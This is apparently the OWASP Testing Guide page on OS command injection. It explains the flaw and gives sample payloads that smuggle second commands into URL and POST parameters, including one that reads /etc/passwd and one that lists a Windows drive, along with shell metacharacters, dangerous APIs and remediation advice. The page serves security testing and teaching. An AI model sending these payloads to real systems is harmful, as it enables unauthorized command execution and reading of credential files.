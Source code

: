 Summary
-------

This article describes how to test an application for OS command injection. The tester will try to inject an OS command through an HTTP request to the application.

OS command injection is a technique used via a web interface in order to execute OS commands on a web server. The user supplies operating system commands through a web interface in order to execute OS commands. Any web interface that is not properly sanitized is subject to this exploit. With the ability to execute OS commands, the user can upload malicious programs or even obtain passwords. OS command injection is preventable when security is emphasized during the design and development of applications.

How to Test
-----------

When viewing a file in a web application, the file name is often shown in the URL. Perl allows piping data from a process into an open statement. The user can simply append the Pipe symbol “|” onto the end of the file name.

Example URL before alteration:\

`http://sensitive/cgi-bin/userData.pl?doc=user1.txt`\

Example URL modified:\

`http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|`\

This will execute the command “/bin/ls”.\

Appending a semicolon to the end of a URL for a .PHP page followed by an operating system command, will execute the command. %3B is url encoded and decodes to semicolon\
Example:\
http://sensitive/something.php?dir=%3Bcat%20/etc/passwd\

**Example**\
Consider the case of an application that contains a set of documents that you can browse from the Internet. If you fire up WebScarab, you can obtain a POST HTTP like the following:

    POST http://www.example.com/public/doc HTTP/1.1
    Host: www.example.com
    User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it; rv:1.8.1) Gecko/20061010 FireFox/2.0
    Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
    Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
    Accept-Encoding: gzip,deflate
    Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
    Keep-Alive: 300
    Proxy-Connection: keep-alive
    Referer: http://127.0.0.1/WebGoat/attack?Screen=20
    Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
    Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
    Content-Type: application/x-www-form-urlencoded
    Content-length: 33

    Doc=Doc1.pdf

In this post request, we notice how the application retrieves the public documentation. Now we can test if it is possible to add an operating system command to inject in the POST HTTP. Try the following:

    POST http://www.example.com/public/doc HTTP/1.1
    Host: www.example.com
    User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it; rv:1.8.1) Gecko/20061010 FireFox/2.0
    Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
    Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
    Accept-Encoding: gzip,deflate
    Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
    Keep-Alive: 300
    Proxy-Connection: keep-alive
    Referer: http://127.0.0.1/WebGoat/attack?Screen=20
    Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
    Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
    Content-Type: application/x-www-form-urlencoded
    Content-length: 33

    Doc=Doc1.pdf+|+Dir c:\

If the application doesn't validate the request, we can obtain the following result:

    Exec Results for 'cmd.exe /c type "C:\httpd\public\doc\"Doc=Doc1.pdf+|+Dir c:\'
    Output...
    Il volume nell'unità C non ha etichetta.
    Numero di serie Del volume: 8E3F-4B61
    Directory of c:\
     18/10/2006 00:27 2,675 Dir_Prog.txt
     18/10/2006 00:28 3,887 Dir_ProgFile.txt
     16/11/2006 10:43
        Doc
        11/11/2006 17:25
           Documents and Settings
           25/10/2006 03:11
              I386
              14/11/2006 18:51
             h4ck3r
             30/09/2005 21:40 25,934 
            OWASP1.JPG
            03/11/2006 18:29
                Prog
                18/11/2006 11:20
                    Program Files
                    16/11/2006 21:12
                        Software
                        24/10/2006 18:25
                            Setup
                            24/10/2006 23:37
                                Technologies
                                18/11/2006 11:14    
                                3 File 32,496 byte
                                13 Directory 6,921,269,248 byte disponibili
                                Return code: 0

In this case, we have successfully performed an OS injection attack.

Special Characters for Comand Injection
---------------------------------------

The following special character can be used for command injection such as | ; & \$ &gt; &lt; \` \\ !

-   cmd1|cmd2 : Uses of | will make command 2 to be executed weather command 1 execution is successful or not.

<!-- -->

-   cmd1;cmd2 : Uses of ; will make command 2 to be executed weather command 1 execution is successful or not.
-   cmd1||cmd2 : Command 2 will only be executed if command 1 execution fails.
-   cmd1&&cmd2 : Command 2 will only be executed if command 1 execution succeeds.
-   \$(cmd) : For example, echo \$(whoami) or \$(touch test.sh; echo 'ls' &gt; test.sh)
-   'cmd' : It's used to execute specific command. For example, 'whoami'
-   &gt;(cmd): &lt;(ls)
-   &lt;(cmd): &gt;(ls)

Code Review Dangerous API
-------------------------

Be aware of the uses of following API as it may introduce the command injeciton risks.

Java

-   Runtime.exec()

C/C++

-   system

<!-- -->

-   exec

<!-- -->

-   ShellExecute

Python

-   exec

<!-- -->

-   eval

<!-- -->

-   os.system
-   os.popen
-   subprocess.popen
-   subprocess.call

PHP

-   system
-   shell\_exec
-   exec
-   proc\_open
-   eval\

Remediation
-----------

### Sanitization

The URL and form data needs to be sanitized for invalid characters. A “blacklist” of characters is an option but it may be difficult to think of all of the characters to validate against. Also there may be some that were not discovered as of yet. A “white list” containing only allowable characters or command list should be created to validate the user input. Characters that were missed, as well as undiscovered threats, should be eliminated by this list.

Genereal blacklist to be included for commannd injection can be | ; & \$ &gt; &lt; ' \\ ! &gt;&gt; \#

Escape or filter special characters for windows,   ( ) &lt; &gt; & \* ‘ | = ? ; \[ \] \^ \~ ! . ” % @ / \\ : + , \`\
Escape or filter special characters for Linux, { }  ( ) &lt; &gt; & \* ‘ | = ? ; \[ \]  \$ – \# \~ ! . ” %  / \\ : + , \`

### Permissions

The web application and its components should be running under strict permissions that do not allow operating system command execution. Try to verify all these informations to test from a Gray Box point of view

Tools
-----

-   OWASP [WebScarab](OWASP_WebScarab_Project "wikilink")
-   OWASP [WebGoat](OWASP_WebGoat_Project "wikilink")
-   [Commix](https://github.com/commixproject/commix)

References
----------

-   <http://www.securityfocus.com/infocus/1709>
-   <http://projects.webappsec.org/w/page/13246950/OS%20Commanding>
-   <https://cwe.mitre.org/data/definitions/78.html>
-   <https://www.securecoding.cert.org/confluence/pages/viewpage.action?pageId=2130132>

\

